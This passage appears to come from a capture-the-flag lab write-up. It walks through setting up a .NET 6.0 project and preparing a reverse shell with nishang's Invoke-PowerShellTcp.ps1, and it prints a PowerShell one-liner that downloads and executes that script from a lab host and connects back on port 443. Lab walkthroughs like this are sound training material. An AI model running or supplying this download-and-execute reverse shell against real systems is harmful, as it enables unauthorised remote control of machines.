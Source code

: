 Next up set the framework to **.NET 6.0** since the website mentioned having support for this framework

![dotnet 6 ](/assets/img/Visual/Visual_05.png)

After doing this we should get a file structure like the following

![Directory structure](/assets/img/Visual/Visual_06.png)

now the next step is to setup a payload we can use to get a reverse shell on the machine. we make use of the **Invoke-PowerShellTcp.ps1** script of [nishang](https://github.com/samratashok/nishang) This github repo contains multiple powershell scripts including reverse shells and other post exploitation tools. next i setup a webserver in the shells directory of the github project using python.

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.91/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.91 -Port 443
```
next up we start our webserver including the **Invoke-PowerShellTcp.ps1** script.

